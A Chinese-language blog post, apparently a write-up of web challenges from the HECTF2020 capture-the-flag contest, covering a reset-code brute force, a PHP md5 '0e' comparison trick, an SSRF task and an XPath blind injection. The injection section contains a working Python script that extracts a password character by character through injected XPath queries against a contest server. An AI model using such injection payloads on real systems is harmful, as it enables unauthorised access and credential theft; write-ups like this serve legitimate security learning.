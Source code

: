 ```yaml
---
title: HECTF2020-Web
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/avatar.jpg'
authorAbout: steamID：888007034
authorDesc: 'Blizzard：TroyeSivan#51769'
categories: 技术
comments: true
date: 2020-11-23 21:31:22
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-700733.png
---
```

HECTF比较简单，和隔壁NCTF简直天差地别。。。不过人家这是新生赛。
先说下成绩，最高18名，还有半天的时间，继续c的话肯定能进线下，前十都有可能。
但是想了想，进线下第一没时间第二没钱第三学校不认证书第四觉得自己硬实力不够。
然后就放了没打，最后也是二十多名，前三十要交的wp也懒得交了，我就在这写一写Web的吧。

一、签到

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20201123213809.png)

hint.php提示爆破，但显然，直接爆破密码是没脑子的行为。
爆破点在忘记密码里面的验证码，爆出来是0233
改密码登录即可。

二、ezphp

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20201123213954.png)

阿这，这md5我都懒得写了。。。
脚本跑个md5值是0e开头但后面包含c的数字就行。

三、ssrfme

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20201123214143.png)

第九届极客大挑战原题

四、injection
XPATH盲注，啥都没过滤，也是右手就行
脚本：

    import requests

    url = "http://114.55.165.246:8082?username='or substring((//user[position()=1]/                   password[position()=1]),28,1)='{}'  or ''='&password=10&submit=%E7%99%BB%E5%BD%95"
    for i in range(30,128):
        url1=url.format(chr(i))
        a = requests.get(url=url1)
        print(a.text)
        if "登录成功you login as admin but username not admin"  in a.text:
            print(i)
            print(url1)
            break

下面还有个时间盲注永奇学长做出来了，我当时已经放了就没看，总之题比较简单，也没有很想c的欲望。